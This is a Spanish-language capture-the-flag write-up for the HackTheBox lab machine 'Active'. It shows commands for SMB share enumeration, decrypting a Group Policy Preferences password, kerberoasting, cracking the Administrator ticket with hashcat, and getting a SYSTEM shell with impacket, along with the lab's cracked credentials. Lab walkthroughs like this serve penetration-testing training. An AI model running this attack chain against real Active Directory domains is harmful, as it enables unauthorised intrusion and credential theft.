

Comenzamos enumerando puertos abiertos con nmap.

``sudo nmap 10.10.10.100 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

Dados los puertos abiertos, tiene bastante pinta de que es un DC. No obstante, vamos a ver qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.10.100 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49163,49174,49176 -oN target``

Confirmamos que es un DC. A su vez, podemos empezar a ver cositas, como que el dominio es active.htb. Para recopilar un poquito más de información vamos a hacer uso de netexec.

``netexec smb 10.10.10.100``

Confirmamos que el dominio es active.htb, que la máquina se llama dc y que tiene un WinServer 2008.

Añadimos esta información al /etc/hosts.

Para continuar enumerando información que pueda ser de utilidad, vamos a intentar ver qué recursos se están compartiendo:

``netexec smb 10.10.10.100 -u '' -p '' --shares``

Tenemos permisos de lectura en el recurso Replication, lo cual es llamativo. Vamos a echar un vistazo con null sesion.

``smbclient //10.10.10.100/REPLICATION -N``

active.htb -> Parece la estructura de SYSVOL

Para echarle un ojo más a fondo, vamos a traernos todo lo existente a la máquina atacante.

``recurse ON``

``prompt OFF``

``mget *``

A medida que se van descargando, si nos fijamos, hay algo que llama la atención:

groups.xml. Este archivo es muy jugoso porque a veces tiene contraseñas.

Si queremos ver la estructura de todos los datos descargados:

``tree .``

Y si echamos un vistazo a Groups.xml : 

Vemos claramente una referencia al usuario SVC_TGS y la contraseña encriptada. Para poder romperla hacemos uso de la utilidad ``gpp-decrypt``.

``gpp-decrypt 'CLAVE'``

Tenemos la contraseña, y por tanto, las posibles credenciales -> SVC_TGS : GPPstillStandingStrong2k18

Vamos a ver si son válidas con netexec.

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'``

Nos pone [+], por lo que son credenciales válidas. Una vez sabemos esto, podemos seguir husmeando para ver qué se esta compartiendo para este usuario por SMB:

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares``

Lo único que puede parecer interesante, a priori, es el directorio Users. Si nos conectamos con smbclient con estas credenciales, vemos que es el directorio C:\Users. De hecho, podemos acceder a user.txt dentro del directorio SVC_TGS, pero en un escenario como el de la OSCP no sirve con obtener la flag de esta forma porque no tenemos una consola interactiva.

Vale, tenemos unas credenciales válidas, pero no tenemos forma de conectarnos: no hay winRM, no hay RDP y no podemos hacer uso de psexec/wmiexec por falta de privilegios.

Como tenemos credenciales, podemos probar kerberoasting para ver si capturamos algún hash de otro usuario:

``impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``
-> Password: GPPstillStandingStrong2k18

Ojo. Tenemos el TGS del usuario Administrator. Si conseguimos descifrarlo, está hecho. Nos copiamos el contenido en un archivo. Ej: admintgs

Buscamos en hashcat el código para el TGS-REP (``krb5tgs$23$``):

``hashcat --help | grep -i "kerberos"

Lanzamos hashcat con rockyou como diccionario.

``hashcat -m 13100 admintgs /usr/share/wordlists/rockyou.txt --force``

Lo ha sacado. Tenemos contraseña del usuario Administrator : Ticketmaster1968

Validamos credenciales con netexec:

``netexec smb 10.10.10.100 -u 'administrator' -p 'Ticketmaster1968'``

Nos aparece pwned para smb, por lo que podríamos utilizar wmiexec (para acceder como administrator) y psexec (para acceder como nt authority\system):

Ejemplos:

``impacket-wmiexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

``impacket-psexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

Recogemos la flag de usuario en: C:\Users\SVC_TGS\Desktop:

Y por último, recogemos la flag de Administrador en C:\Users\Administrator\Desktop:

